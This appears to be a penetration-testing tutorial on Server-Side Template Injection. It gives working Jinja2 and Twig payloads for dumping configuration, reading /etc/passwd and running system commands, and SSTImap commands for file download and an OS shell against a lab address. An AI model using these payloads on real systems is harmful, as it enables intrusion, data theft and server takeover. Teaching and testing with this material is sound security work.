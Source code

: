 # Server-Side Template Injection (SSTI)
Web applications can utilize templating engines and server-side templates to generate responses such as HTML content dynamically. This generation is often based on user input, enabling the web application to respond to user input dynamically. When an attacker can inject template code, a Server-Side Template Injection vulnerability can occur. SSTI can lead to various security risks, including data leakage and even full server compromise via remote code execution.
Server-side Template Injection (SSTI) occurs when an attacker can inject templating code into a template that is later rendered by the server. If an attacker injects malicious code, the server potentially executes the code during the rendering process, enabling an attacker to take over the server completely.
# Identifying SSTI
## Confirming SSTI
```
${{<%[%'"}}%\.
```
Since the previous test string should almost certainly violate the template syntax, it should result in an error if the web application is vulnerable to SSTI. 
## Identifying the Template Engine
To enable the successful exploitation of an SSTI vulnerability, we first need to determine the template engine used by the web application. We can utilize slight variations in the behavior of different template engines to achieve this. For instance, consider the following commonly used overview containing slight differences in popular template engines:
We will start by injecting the payload `${7*7}` and follow the diagram from left to right, depending on the result of the injection. Suppose the injection resulted in a successful execution of the injected payload. In that case, we follow the green arrow; otherwise, we follow the red arrow until we arrive at a resulting template engine.
# Exploiting SSTI - Jinja2
In this section, we will assume that we have successfully identified that the web application uses the Jinja template engine. We will only focus on the SSTI exploitation and thus assume that the SSTI confirmation and template engine identification have already been done in a previous step.
## Information Disclosure
We can exploit the SSTI vulnerability to obtain internal information about the web application, including configuration details and the web application's source code. For instance, we can obtain the web application's configuration using the following SSTI payload:
```
{{ config.items() }}
```
Since this payload dumps the entire web application configuration, including any used secret keys, we can prepare further attacks using the obtained information.
We can use the following SSTI payload to dump all available built-in functions:
```
{{ self.__init__.__globals__.__builtins__ }}
```
## Local File Inclusion (LFI)
We can use Python's built-in function open to include a local file. However, we cannot call the function directly; we need to call it from the __builtins__ dictionary we dumped earlier. This results in the following payload to include the file /etc/passwd:
```
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```
## Remote Code Execution (RCE)
To achieve remote code execution in Python, we can use functions provided by the os library, such as system or popen. However, if the web application has not already imported this library, we must first import it by calling the built-in function import. This results in the following SSTI payload:
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
# Exploiting SSTI - Twig
Like in the previous section, we will only focus on the SSTI exploitation and thus assume that the SSTI confirmation and template engine identification have already been done in a previous step. Twig is a template engine for the PHP programming language.
## Information Disclosure
In Twig, we can use the `_self` keyword to obtain a little information about the current template:
```
{{ _self }}
```
## Local File Inclusion (LFI)
Reading local files (without using the same way as we will use for RCE) is not possible using internal functions directly provided by Twig. However, the PHP web framework Symfony defines additional Twig filters. One of these filters is file_excerpt and can be used to read local files
```
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```
Remote Code Execution (RCE)
To achieve remote code execution, we can use a PHP built-in function such as system. We can pass an argument to this function by using Twig's filter function, resulting in any of the following SSTI payloads:
```
{{ ['id'] | filter('system') }}
```
## Tools of the Trade
we will use the more modern SSTImap to aid the SSTI exploitation process
To automatically identify any SSTI vulnerabilities as well as the template engine used by the web application, we need to provide SSTImap with the target URL:
```
python3 sstimap.py -u http://172.17.0.2/index.php?name=test
```
As we can see, SSTImap confirms the SSTI vulnerability and successfully identifies the Twig template engine. It also provides capabilities we can use during exploitation. 
For instance, we can download a remote file to our local machine using the -D flag:
```
python3 sstimap.py -u http://172.17.0.2/index.php?name=test -D '/etc/passwd' './passwd'
```
Additionally, we can execute a system command using the -S flag:
```
python3 sstimap.py -u http://172.17.0.2/index.php?name=test -S id
```
Alternatively, we can use --os-shell to obtain an interactive shell:
```
python3 sstimap.py -u http://172.17.0.2/index.php?name=test --os-shell
```
```
https://github.com/vladko312/SSTImap
```
# Prevention